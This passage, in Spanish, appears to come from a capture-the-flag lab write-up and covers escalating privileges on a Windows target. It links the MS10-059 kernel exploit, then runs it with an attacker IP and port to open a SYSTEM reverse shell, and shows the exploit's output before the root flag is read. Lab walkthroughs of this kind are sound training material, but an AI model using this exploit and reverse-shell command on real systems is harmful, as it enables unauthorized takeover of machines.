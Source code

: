 Vamos a descargar este exploit especificamente que es para esta [version](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059). Lo subimos a la maquina de igual manera:
![[Pasted image 20240108113648.png]]

Y ejecutamos de la siguiente manera:
```
C:\temp>.\MS10-059.exe 10.10.14.204 443 
.\MS10-059.exe 10.10.14.204 443 
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

 Por otro lado recibimos la shell:
![[Pasted image 20240108120001.png]]

Estando como NT Authority podriamos leer la flag de root:
![[Pasted image 20240108120237.png]]


